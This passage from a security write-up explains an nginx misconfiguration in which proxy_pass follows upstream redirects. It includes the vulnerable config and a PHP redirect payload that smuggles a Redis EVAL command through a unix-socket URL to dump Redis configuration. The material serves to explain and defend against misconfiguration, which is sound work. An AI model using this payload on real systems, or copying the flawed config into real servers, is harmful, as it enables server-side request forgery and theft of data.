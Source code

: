 Now, we can take this a step further. If you want the proxy_pass to follow redirects instead of reflecting it, there’s no setting for that. However, a lot of examples (hello StackOverflow) show that you could do the following (hint: don’t):
```
location ~ /images(.*) {
    proxy_intercept_errors on;
    proxy_pass   http://example.com$1;
    error_page 301 302 307 303 = @handle_redirects;
}
location @handle_redirects {
    set $original_uri $uri;
    set $orig_loc $upstream_http_location;
    proxy_pass $orig_loc;
}
```

This basically says that if the origin host responds with status `301`, it will use the location-header and pass it into another proxy_pass inside the @handle_redirects. This means that if this sort of rewrite is made, and an open redirect exists at the origin, we control the full part of proxy_pass. This however requires the origin host to redirect when we are using the EVAL HTTPmethod, but as shown above, if we can make the request point to our malicious origin, we can make sure it will also redirect an EVAL request back to the unix-socket:
```
error_page 404 405 =301 @405;
location @405 {
  try_files /index.php?$args /index.php?$args;
}
```

```php
<?
header('Location: http://unix:/tmp/redis.sock:\\'return (table.concat(redis.call("config","get","\*"),"\\n").." HTTP/1.1 200 OK\\r\\n\\r\\n")\\' 1 ', true, 301);
```


## References
* https://portswigger.net/daily-swig/nginx-server-misconfigurations-found-in-the-wild-that-expose-websites-to-attacks
* https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/
* https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/
* https://github.com/yandex/gixy
* https://book.hacktricks.xyz/pentesting/pentesting-web/nginx